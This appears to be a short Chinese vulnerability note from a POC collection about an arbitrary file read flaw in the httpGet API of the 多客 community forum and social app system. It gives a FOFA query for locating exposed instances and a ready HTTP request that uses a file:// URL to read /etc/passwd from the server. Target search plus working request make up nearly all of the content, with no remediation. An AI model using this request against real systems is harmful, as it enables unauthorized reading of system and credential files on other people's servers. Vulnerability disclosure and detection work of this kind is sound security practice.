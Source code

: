 **fofa**

```
title="多客-兴趣交友神器"
```

**一、漏洞简述**

多客圈子论坛系统是支持文字发帖、语音贴、视频贴等，并可以创建语音聊天、在线聊天、语音房APP。快速建立社区兴趣圈、语音直播、礼物、商城、充值、宝箱、陌生社交系统APP、语音交友系统APP、婚恋系统app、直播系统app、本地门户app等各类应用的系统产品。其接口httpGet存在任意文件读取漏洞，攻击者可通过该漏洞获取系统敏感信息。

**二、漏洞检测poc**

```yaml
GET /index.php/api/login/httpGet?url=file:///etc/passwd HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Length: 2

```

